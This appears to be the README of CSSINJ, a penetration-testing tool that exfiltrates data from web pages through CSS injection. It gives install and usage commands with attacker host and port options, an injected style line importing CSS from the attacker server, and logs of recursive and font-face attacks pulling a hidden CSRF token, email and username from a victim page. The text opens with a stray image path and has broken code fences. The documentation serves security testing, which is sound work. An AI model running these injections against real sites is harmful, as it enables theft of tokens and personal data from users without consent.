 ```yaml
---

# CSSINJ  

```
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|
```

## About  

**CSSINJ** is a penetration testing tool that exploits [**CSS injection vulnerabilities**](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection) to exfiltrate sensitive information from web applications. This tool is designed for security professionals to assess the security posture of web applications by demonstrating how CSS can be used to extract data covertly.  


## Installation  

To install and set up **CSSINJ** from Source, run the following commands:  

```bash
git clone https://github.com/DonAsako/CSSinj.git
cd CSSinj
python3 -m venv venv  
source venv/bin/activate
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade build
python3 -m build
python3 -m pip install .
```

Now you’re ready to use **CSSINJ**! 🎯  

## Usage  

```bash
python3 -m cssinj [-h] -H HOSTNAME -p PORT [-e ELEMENT] [-a ATTRIBUT] [-d] [-m {recusive,font-face}]
```

### Options  

| Option                 | Description                                 |
|------------------------|---------------------------------------------|
| `-h, --help`           | Show help message and exit                  |
| `-H, --hostname`       | Attacker hostname or IP address             |
| `-p, --port`           | Port number of the attacker                 |
| `-e, --element`        | HTML element to extract specific data       |
| `-a, --attribut`       | Specify an element Attribute Selector for exfiltration     |
| `-d, --details`        | Show detailed logs of the exfiltration process, including extracted data |
| `-m, --method`        | Specify the type of exfiltration (recusive or font-face) |

### Example  

#### Victim's View :
```html
<h1>Welcome on my page !</h1>
<input type="text" id="username" value="admin" disabled>
<input type="email" id="email" value="admin@admin.XX" disabled>
<input type="text" class="csrf" value="MySecretAdminToken" hidden>
<img src="XXXXXXXXXXX.XX">
...
```

<style>
  @import url('//localhost:5005/start');
</style>
...
```

#### Recursive attack
###### Using a specific HTML identifier : 

```bash
~ python3 CSSINJ.py inject -H 127.0.0.1 -p 5005 -e input
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 03:06:49] 🌐 Connection from ::1
[2025-03-11 03:06:49] ⚙️ ID : 1
[2025-03-11 03:06:49] ✅ [1] - The value exfiltrated from input is : MySecretAdminToken
[2025-03-11 03:06:49] ✅ [1] - The value exfiltrated from input is : admin@admin.XX
[2025-03-11 03:06:49] ✅ [1] - The value exfiltrated from input is : admin
```

###### Using a specific CSS attribute selector and a generic HTML identifier:

```bash
~ python3 CSSINJ.py -H 127.0.0.1 -p 5005 -e * -a src
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 03:06:49] 🌐 Connection from ::1
[2025-03-11 03:06:49] ⚙️ ID : 1
[2025-03-11 03:06:49] ✅ [1] - The src exfiltrated from * is : XXXXXXXXXXX.XX
```

#### Font-face attack
```bash
~ python3 -m cssinj -H 127.0.0.1 -p 5005 -e h1 --method font-face
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-05-21 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-05-21 03:06:49] 🌐 Connection from 127.0.0.1
[2025-05-21 03:06:49] ⚙️ ID : 1
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 :  
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : e
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : W
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : l
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : c
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : o
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : m
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : n
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : y
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : p
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : a
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : g
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : !
```

## Browser-Specific Behavior

The success of CSS injection attacks using @import depends on the browser's handling of CSS imports:
- Chromium-based browsers (Chrome, Edge, Brave, etc.) allow recursive CSS imports and will process the injected styles, making them vulnerable to exfiltration techniques using @import.

- Firefox, however, handles @import differently:
  - Unlike Chromium-based browsers, Firefox processes all @import rules before applying any styles.
  - As a result, the attack fails because the browser never processes the CSS selectors, preventing data exfiltration.
  - This behavior causes an infinite loop where the browser keeps waiting for a CSS update that never happens.

This difference in behavior makes Chromium-based browsers more susceptible to CSS injection exfiltration, while Firefox provides better protection against such attacks.

## Todo
- General : 
  - [ ] Add error Handler
  - [ ] Add test
  - [ ] Edit Terminal

- Injection : 
  - [x] Add injection parameters
  - [ ] Add an option to save results to a file
  - [ ] Allow multiple CSS selectors for simultaneous extraction
  - [ ] Add g all of the page
  - [x] Refract cssinjector.py
  - [ ] Add timeout


## Disclaimer  

This tool is intended **only for ethical hacking and security research**. **Unauthorized use on systems without explicit permission is illegal**. The developer **is not responsible** for any misuse of this tool.  

## Author  

**CSSINJ** was developed by **Asako**.
